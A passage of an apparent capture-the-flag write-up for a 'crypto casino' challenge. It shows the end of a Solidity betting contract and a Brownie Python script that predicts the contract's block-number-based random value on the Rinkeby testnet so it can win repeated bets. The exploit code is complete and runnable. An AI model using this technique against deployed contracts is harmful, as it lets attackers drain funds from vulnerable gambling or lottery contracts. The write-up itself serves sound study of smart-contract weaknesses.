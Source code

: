 ```
        }else {
            consecutiveWins[msg.sender] = 0;
        }
    }

    function done() public view returns (string memory) {
        if (consecutiveWins[msg.sender] > 1) {
            return "you broke the casino";  // <- replace with some string to let it compile successfully
        }
    }

}
```

> crypto_casino_ctf/scripts/test.py

```
from brownie import *


def main():
    network.disconnect()
    network.connect("rinkeby")


    network.gas_limit(50000) # set how much i am willing to pay

    accounts.add(YOUR_OWN_RINKEBY_NETWORK_WALLET_PRIVATE_KEY)

    d = Contract.from_abi(
        address="0x186d5d064545f6211dD1B5286aB2Bc755dfF2F59",
        abi=casino.abi,
        name="target"
    )

    # just in case i didn't guess it in the first 2 round
    for k in range(3):
        for i in range(2):
            current_block_height = "%064x" % (chain.height+1)
            seed = "b37c910f4e0df0efafb35a55489604369808b6de642ff1dbab5062680afaddcd" + current_block_height

            print("Doing block height (hex):",current_block_height)
            print("Doing block height (dec): %064d"%(chain.height+1))

            ''' Replica of abi.encodePacked(seed,block.number) '''
            _bytes = bytes.fromhex(seed)
            _encodePacked = int.from_bytes(_bytes, byteorder="big")
            _hexBytes = web3.keccak(_encodePacked)

            guess = int(_hexBytes.hex(), 16) ^ 0x539

            print(d.bet(guess, {"from": accounts[0].address}))
        print("result", d.done({"from": accounts[0].address}))

```
2. ```$ brownie run scripts/test.py```
